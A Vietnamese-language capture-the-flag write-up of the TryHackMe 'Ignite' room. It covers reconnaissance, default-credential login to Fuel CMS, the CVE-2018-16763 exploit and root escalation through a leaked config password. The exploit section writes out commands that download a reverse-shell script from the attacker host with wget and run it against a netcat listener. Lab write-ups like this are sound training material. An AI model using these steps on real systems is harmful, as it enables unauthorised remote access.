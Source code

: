 # [THM] Ignite write-up

- IP: 10.10.84.37

## Recon

Sử dụng nmap để dò quét các cổng và dịch vụ đang mở
> nmap -sT -sV -sC -T4 10.10.84.37

![Nmap scan](./img/nmap-scan.png)

Có 1 port dịch vụ đang mở 
- Port 80 chạy dịch vụ 

Giao diện trang web

![Web interface](./img/web-interface.png)

Thông qua giao diện web trên ta xác định được trang web dùng Fuel CMS version 1.4. Tiếp tục scan thư mục ẩn với công cụ ffuf
> ffuf -u "http://10.10.84.37/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/big.txt

![Ffuf scan](./img/ffuf-scan.png)

Sau khi khám phá các thư mục ẩn trên hầu hết không có gì đặc biệt ngoại trừ tệp `robots.txt`. Dựa vào nội dung tệp đó ta thử truy cập `/fuel` thì ra trang login

![Login interface](./img/login-interface.png)

## Exploit

Và thử đăng nhập với tài khoản defaul có `username:admin` và `password:admin` ta đã truy cập được vào dashboard. Khám phá và nhận ra có thể upload nhưng khi thử upload reverse shell đã bị từ chối chắc có lẽ nó đã được filter định dạng file

![Upload test](./img/upload-test.png)

Đã thử và nhận ra không thể tấn công bằng cách này. Vậy còn thông tin về CMS mà page đang sử dụng liệu nó có lỗ hổng nào đã được tìm thấy trước đây không? 
Sau khi tìm kiếm thông tin thì có thể thấy ở version CMS này có thể tấn công thông qua **CVE-2018-16763**

Tìm kiếm PoC và thực hiện tấn công. File exploit đã được chỉnh sửa ở bên dưới. Bởi vì sẽ không sử dụng proxy (burp hoặc bất kỳ phần mềm proxy nào khác) nên hãy chú thích mã proxy trong phần khai thác.

Thực thi mã và đã nhận được shell 

![Shell](./img/shell.png)

Tận dụng việc này ta sẽ chèn revese shell. Ta có thể truy cập [revshell](.https://www.revshells.com/) để tạo bash reverse shell

![Reverse shell](./img/revese-shell.png)

Tạo tệp `revshell.sh` trên máy attacker chứa revere shell sau đó chạy lệnh `python3 -m http.server 80` và tiếp theo trên shell mục tiêu ta sẽ download file shell về với câu lệnh `wget http://10.21.113.26/revshell.sh` và cấp quyền với câu lệnh `chmod +x revshell.sh`. Cuối cùng sẽ tạo **netcat listener** trên máy attacker và trên shell chạy lệnh `bash revshell.sh`

## user.txt
Sau khi truy cập được shell ta thực hiện tìm kiếm user flag

![User flag](./img/user-flag.png)

## Privilege escalation
Kiểm tra user này có thể thực hiện câu lệnh nào với quyền root mà không cần mật khẩu hay không. Nhưng rất tiếc là không có

![Sudo -l](./img/sudo-l.png)

Chợt nhớ ra khi truy cập trang web nhận thấy một số hướng dẫn liên quan tới cấu hình cơ sở dữ liệu trên trang web.

![Database](./img/database.png)

Sau khi kiểm tra file config ta đã có mật khẩu của root

![Root pass](./img/root-pass.png)

Cần chạy thêm câu lệnh `python3 -c "import pty;pty.spawn('/bin/bash')"` bởi vì **su: must be run from a terminal**

## root.txt
![Root flag](./img/root-flag.png)